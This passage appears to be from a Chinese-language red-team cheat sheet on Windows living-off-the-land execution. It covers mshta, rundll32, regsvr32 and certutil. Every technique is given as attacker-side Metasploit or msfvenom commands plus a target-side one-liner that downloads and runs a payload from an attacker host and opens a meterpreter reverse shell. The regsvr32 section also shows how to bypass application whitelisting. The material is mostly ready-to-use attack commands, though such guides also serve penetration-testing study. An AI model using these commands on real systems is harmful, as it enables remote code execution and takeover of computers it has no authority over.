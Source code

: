 目标端
```
mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta
```

**Rundll32.exe**

Rundll32.exe 与 Windows 操作系统相关联，可调用从 DLL（16位或32位）导出的函数并将其存储在适当的内存库中。

Metasploit 还包含“ SMB Delivery”模块，该模块生成恶意的 dll 文件。该模块通过 SMB 服务器提供有效负载，并提供检索和执行生成的有效负载的命令。当前支持 DLL 和 Powershell。

攻击端
```bash
use exploit/windows/smb/smb_delivery
set srvhost 192.168.1.109
set lhost 192.168.1.109
exploit
```

目标端
```cmd
rundll32.exe \\192.168.1.109\vabFG\test.dll,0
```

**Regsvr32.exe**

Regsvr32 是一个命令行实用程序，用于注册和注销 OLE 控件，例如 Windows 注册表中的 DLL 和 ActiveX 控件。Windows XP 和更高版本的 Windows 的 ％systemroot％\ System32 文件夹中安装了 Regsvr32.exe。

Regsvr32使用 “squablydoo” 技术绕过应用程序白名单。签名的 Microsoft 二进制文件 Regsvr32 可以请求一个 .sct 文件，然后在其中执行包含的 PowerShell 命令。这两个 Web 请求（即 .sct 文件和 PowerShell 下载/执行）都可以在同一端口上发生。“PSH(Binary)”将向磁盘写入文件，允许下载/执行自定义二进制文件。

攻击端
```bash
use exploit/multi/script/web_delivery
set target 3
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set srvhost 192.168.1.109
exploit
```

目标端
```bash
regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll
```

**Certutil.exe**

Certutil.exe 是作为证书服务的一部分安装的命令行程序。我们可以使用此工具在目标计算机上执行恶意 exe 文件，以获取 meterpreter 程序会话。

攻击端
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f exe > shell.exe
python -m SimpleHTTPServer 80
```
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set lport 1234
exploit
```
目标端
```bash
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```

